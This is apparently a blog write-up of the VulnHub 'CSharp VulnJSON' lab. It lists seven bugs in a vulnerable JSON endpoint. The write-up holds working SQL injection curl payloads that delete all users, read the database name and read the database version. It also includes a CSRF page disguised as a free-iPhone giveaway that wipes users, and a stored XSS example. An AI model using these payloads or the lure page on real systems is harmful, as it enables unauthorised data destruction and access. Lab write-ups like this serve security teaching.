

### CSharp VulnJSON

Another web challenge, [CSharp VulnJSON](http://www.vulnhub.com/entry/csharp-vulnjson,134/) seemed to be basically about the web exploitations mostly with SQL injections and XSS. After starting the VM, the first thing I did was a nmap scan.

```shell
nmap 192.168.168.54

Starting Nmap 6.47 ( http://nmap.org ) at 2016-02-24 11:20 CST
Nmap scan report for 192.168.168.54
Host is up (0.0036s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

I loaded the site on the browser and it was a simple application. I saw that it was a simple page that would send XHR to `Vulnerable.ashx` with varieties of payloads. Basically, it seems to be the entrypoint for create, select and delete of CRUD.

The box seems to have a lot of issues with varied levels of criticality.

#### Bug 1 : Directory browsing



#### Bug 2 : Create user that can not be deleted from application

You can include a double quote in your username (eg. `"samar`) and the `Delete User` button won't work for this username.

#### Bug 3 : Delete all users via SQLi

You can delete all of the users via SQLi.
```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"' OR 1=1--\",\"method\":\"delete\"}"
{ "success" : True }
```

#### Bug 4 : SQLi on insert (Create user)

The first step was to try concatenation operators of various databases and quickly it turned out it was running Postgresql. The following worked:
```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"sam'||'ar\",\"password\":\"samar\",\"age\":null,\"line1\":\"\",\"line2\":\"\",\"city\":\"\",\"state\":\"\",\"zip\":null,\"first\":\"\",\"middle\":\"\",\"last\":\"\",\"method\":\"create\"}"
```

It created a user with username `samar`. The `||` (double pipe) is the concatenation operator in Postgresql. We can leverage this power to do several other stuffs. Some examples follow:

```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"'||current_database()||'\",\"password\":\"samar\",\"age\":null,\"line1\":\"\",\"line2\":\"\",\"city\":\"\",\"state\":\"\",\"zip\":null,\"first\":\"\",\"middle\":\"\",\"last\":\"\",\"method\":\"create\"}"
```

Now, if we perform list users, we know that we've a new user called `vulnerable_json` which is in fact result of `current_database()`. We can run several other calls such as current_user, user, etc. The only limit is your imagination and valid syntax while injecting your payloads. See this [cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet) and [this](http://www.sqlinjectionwiki.com/Categories/4/postgresql-sql-injection-cheat-sheet/) for more details.

#### Bug 5 : SQLi in select (list users)

```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"' union all select version()--\",\"method\":\"list\"}" --compressed
[{"username":"PostgreSQL 9.3.9 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4, 64-bit"}]
```

#### Bug 6 : Cross Site Request Forgery

The app is also vulnerable to CSRF which is obvious. A sample file like below which can delete all the users without user's consent proves this:

```html
<!DOCTYPE html>
<head>
<script>
function deleteUser() {
	var data = {
		username: '\' OR 1=1--',
		method: 'delete'
	};

	var xhr = new XMLHttpRequest();
	xhr.open('post', 'http://192.168.168.54/Vulnerable.ashx', false);
	xhr.send(JSON.stringify(data));
}
</script>
</head>
<body>
<h1>We're offering free iphone to first 10 entries. Please hurry by providing your information.</h1>
<form method="post" action="" id="frmLogin">
<div>Your e-mail for notification</div>
<div><input type="text" name="txtUsername" id="txtUsername" /></div>
<div><input type="submit" name="btnSubmitNewUser" value="Submit participation" onclick="deleteUser(); return false;" id="btnSubmitNewUser" /></div>
</form>
</body>
```

#### Bug 7 : Cross Site Scripting

A simple addition of user with username `<script>alert(1)</script>` results in stored XSS for the API in case the API is used by someone else to populate list of users. The storage is done without any sanitization and escaping of the input.

For this app, you can trigger XSS via the following username:
```html

```

Well, you can perform more advanced exploitations with above examples but basically I am lazy to do anything further than identifying the bugs (which is pretty obvious with this one).

Game Over!
